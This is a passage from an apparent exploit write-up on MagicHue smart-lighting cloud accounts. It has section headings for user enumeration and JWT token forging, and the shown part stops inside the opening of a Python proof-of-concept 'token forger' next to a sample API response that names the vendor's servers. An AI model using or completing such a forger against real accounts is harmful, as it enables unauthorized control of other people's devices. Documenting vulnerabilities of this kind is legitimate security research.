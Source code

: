 #### Enumeration

![](images/poc.jpg)

#### Token Forging

##### PoC token forger

- Using the **userID** and **uniqID** obtained upon successful enumeration. This PoC token forger, generates a new signed bypassed JWT

```
#!/usr/local/bin/python3

import url64
import requests
import json
import sys
import os
from colorama import init
from colorama import Fore, Back, Style
import re
import time
from wsgiref.handlers import format_date_time
from datetime import datetime
from time import mktime

now = datetime.now()
stamp = mktime(now.timetuple())

'''
HTTP/1.1 200
Server: nginx/1.10.3
Content-Type: application/json;charset=UTF-8
Connection: close

"{\"code\":0,\"msg\":\"\",\"data\":{\"webApi\":\"wifij01us.magichue.net/app\",\"webPathOta\":\"http:\/\/wifij01us.magichue.net\/app\/ota\/download\",\"tcpServerController\":\"TCP,8816,ra8816us02.magichue.net\",\"tcpServerBulb\":\"TCP,8815,ra8815us02.magichue.net\",\"tcpServerControllerOld\":\"TCP,8806,mhc8806us.magichue.net\",\"tcpServerBulbOld\":\"TCP,8805,mhb8805us.magichue.net\",\"sslMqttServer\":\"ssl:\/\/192.168.0.112:1883\",\"serverName\":\"Global\",\"serverCode\":\"US\",\"userName\":\"\",\"userEmail\":\"\",\"userUniID\":\"\"},\"token\":\"\"}"
'''

def Usage():
    print (f"Usage: {sys.argv[0]} <username> <unique id>")

def Main(user, uniqid):
    os.system('clear')
```